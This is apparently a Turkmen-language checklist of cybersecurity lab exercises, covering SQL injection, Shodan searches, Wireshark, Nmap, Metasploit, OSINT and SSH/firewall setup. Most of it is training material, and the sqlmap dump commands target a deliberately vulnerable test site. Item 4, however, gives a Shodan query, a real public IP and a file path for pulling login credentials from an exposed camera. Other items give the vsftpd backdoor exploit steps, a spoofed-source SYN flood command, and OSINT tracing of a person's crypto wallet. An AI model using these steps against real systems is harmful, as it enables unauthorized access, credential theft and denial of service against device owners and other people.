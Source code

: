 # bahbit
 1
Test php.Vuln.com/artists.php?artist=1
Şu salga sql injection etmeli. (kali sql map)	
Brauzer şu salgyny giriz: http://testphp.vulnweb.com/artists.php?artist=1  	
sqlmap --url http://testphp.vulnweb.com/login.php
sqlmap --url http://testphp.vulnweb.com/login.php --crawl 2 -batch --threads 3
sqlmap --url http://testphp.vulnweb.com/login.php --crawl 2 -batch --threads 3
sqlmap --url http://testphp.vulnweb.com/login.php --crawl 2 -batch --threads 3 –dbs
sqlmap --url http://testphp.vulnweb.com/login.php --crawl 2 -batch --threads 3 -D acuart
sqlmap --url http://testphp.vulnweb.com/login.php --crawl 2 -batch --threads 3 -D acuart --tables
sqlmap --url http://testphp.vulnweb.com/login.php --crawl 2 -batch --threads 3 -D acuart -T users --dump
 2
Wireshark-da vpn tunel arkaly geçýän maglumatlaryň gowşaklyklaryny tapmaly
3 
Wireshark ulanyp DNS protokolyny seljermeli gowşaklyklary anyklamaly.
4
Shodan.io IoT gowşaklyklaryny tapyp peýdalanmak(kamera açmaly).
https://vk.com/@wiwosit-ekspluatiruem-uyazvimost-kamer

Shodan-a girmeli we aşakdaky buýrugy ýazmaly...
realm="GoAhead", domain=":81" port:"81"
http://202.215.62.86:81/ yzyna şuny goş: 
system.ini?loginuse&loginpas
http://202.215.62.86:81/system.ini?loginuse&loginpas
Faýl ýüklär, şol ýerden ulanyjy adyny we paroly almaly

5
RAR faýlyň parolyny döwmeli. (LostMyPass programma).
https://www.lostmypass.com/ onlaýn döwmek üçin şu web salgy...
6
NMAP arkaly belli bir IP-nyň açyk portlaryny we gowşaklyklaryny ýüze çykarmaly.
7
Burpsuite ulgamy bilen web sahypanyň gowşaklygyny bruteforce etmeli.
8
Gmail-e gelýän hatlary diňe şu kompýuterde ýatda saklar ýaly etmeli(setting-den düzetmeli).
9
Nmap arkaly port skannirlemek we hyzmat maglumatlary
(nmap -sV -p- 192.168.0.23)

					    10
Shodan.io-de vpn-yň gowşaklyklaryny ýüze çykarmak we seljermek.
http.title:"openvpn", port:"8443"

   11
Metasploit arkaly exploit ulanmak.

   12
OSINT gurallaryny ulanmak arkaly maglumatlary ýygnamak.
(google dorking, Tin Eye Reverse Image Search, FaceCheck Reverse Image search, RevEye reverse Image Search, Whois History)


					  13
SSH açar bilen serwere birikmek.
(paroly aýyryp açar bilen girmeli,  etc/ssh/sshdconfig/digital ocean ssh key)

					  14
Metasploit FTP protokol backdoor goýmaly.

Ädimler
nmap -sV <ip_salgy>
kali linux-da: msfconsole buýrugyny ýazyp metasploit-e giriň
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <ip_salgy>
exploit ýa-da run
  15
Wireshark-da pakedi seljerip gowşaklyklary ýüze çykarmak.

 16
SSH port forwarding (Bir kompýuterden 80-nji portdan çykmaly, beýleki kompýuteriň 80-nji portyndan girmeli).
sudo ssh -L 80:localhost:80 <username>@<remote_host>

17
OSINT. Plany Planyýew kripto kaşilýogyny tapmaly. Tranzaksiýalary görmeli.
Google-da şahsyň adyny ýazsaň çykarýar ýa-da osint framework-dan peýdalanyň.
Blockchain.com Explorer.
Etherscan
1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa  kripto salgy.

18
Syn Flooding paketlerini Wireshark-yň üsti bilen seljermek.
tcp.flags.syn==1 && tcp.flags.ack==0
hping3 -S -p 80 --flood --rand-source <target IP>  cmd kali yaz.

19
Linux servere ssh arkaly diňe bir IP bilen biriger ýaly etmeli, ssh arkaly başga IP-ler bilen birikmez ýaly etmeli. (UFW firewall)
Sudo su
Ufw default deny incoming
Ufw default allow outgoing
sudo ufw allow from <YOUR_IP> to any port 22
“sudo ufw deny 22” (nabelli bolmasa yazmalydyr)
sudo ufw status
sudo ufw enable

